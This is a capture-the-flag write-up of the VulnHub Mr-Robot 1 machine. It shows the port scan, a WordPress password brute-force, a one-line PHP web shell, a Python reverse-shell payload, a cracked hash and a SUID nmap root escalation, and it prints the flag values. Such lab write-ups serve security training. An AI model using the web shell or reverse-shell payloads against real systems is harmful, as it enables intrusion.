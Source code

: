 ```yaml
---
layout: post
title:	"Mr-Robot: 1 Writeup"
date:	2017-12-21 21:00:00
categories:
    - blog
tags:
    - vulnhub
---
```


Hello Friend,

This is my writeup for the CTF [Mr-Robot 1](http://www.vulnhub.com/entry/mr-robot-1,151/).

I ran nmap:

~~~
nmap -sT -sV -Pn 192.168.1.17
~~~

* -sT: full TCP scan (complete Three-Way Handshake)
* -sV: version of the services
* -Pn: skip host discovery (I had problems with ICMP echo request packets)

~~~
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-10-22 18:40 CEST
Nmap scan report for linux.homenet.telecomitalia.it (192.168.1.17)
Host is up (0.0014s latency).
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
22/tcp closed ssh
80/tcp open http Apache httpd
443/tcp open ssl/http Apache httpd
~~~

I ran another nmap with “-p 1-65535” parameters on all ports, but nothing changed.

The website was the same on port 80 and 443:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-21-mr-robot-1-writeup/img1.png)

It was an animated console on a fsociety machine 😛

But… look at this:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-21-mr-robot-1-writeup/img2.png)

First Key :

~~~
073403c8a58a1f80d943455fb30724b9
~~~

There was a wordpress blog on the website. I tried to enumerate users with wpscan, but it didn’t work. After some attempts, I found that ‘eliot’ was a valid username. I ran wpscan to bruteforce the wordpress login for user ‘eliot’ with the dictionary file ‘fsocity.dic’. The password was:

~~~
ER28–0652
~~~

After logged in, I uploaded a php shell:

~~~
<?php passthru($_GET[“cmd”]); ?>
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-21-mr-robot-1-writeup/img3.png)

I got a reverse shell on netcat by using this payload:

~~~
http://192.168.1.17/wp-content/uploads/2016/10/shell.php?cmd=python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect((“10.0.0.1”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
~~~

I spawned a TTY shell:

~~~
/bin/sh: 0: can’t access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ python -c “import pty;pty.spawn(‘/bin/bash’);”
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/uploads/2016/10$
~~~

Ok I found this:

~~~
daemon@linux:/home/robot$ ls -l
ls -l
total 8
-r——– 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r–r– 1 robot robot 39 Nov 13  2015 password.raw-md5
~~~

I didn’t have permission to read the second key but I found something in the password.raw-md5 file:

~~~
root:c3fcd3d76192e4007dfb496cca67e13b
~~~

I used Crack Station and I got the second key:

~~~
root:abcdefghijklmnopqrstuvwxyz

daemon@linux:/home/robot$ su – robot
su – robot
Password: abcdefghijklmnopqrstuvwxyz
$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
~~~

After some local enumeration, I found nmap with SUID set to root on the system. This [paper](http://www.exploit-db.com/papers/18168/) explains how to get a root shell:

~~~
robot@linux:/usr/local/bin$ ls -l
ls -l
total 496
-rwsr-xr-x 1 root root 504736 Nov 13  2015 nmap
robot@linux:/usr/local/bin$ nmap –interactive
nmap –interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode — press h <enter> for help
nmap> ! id
! id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
waiting to reap child : No child processes
nmap> ! ls /root/
! ls /root/
firstboot_done    key-3-of-3.txt
waiting to reap child : No child processes
nmap> ! cat /root/key-3-of-3.txt
! cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
~~~

Goodbye friend.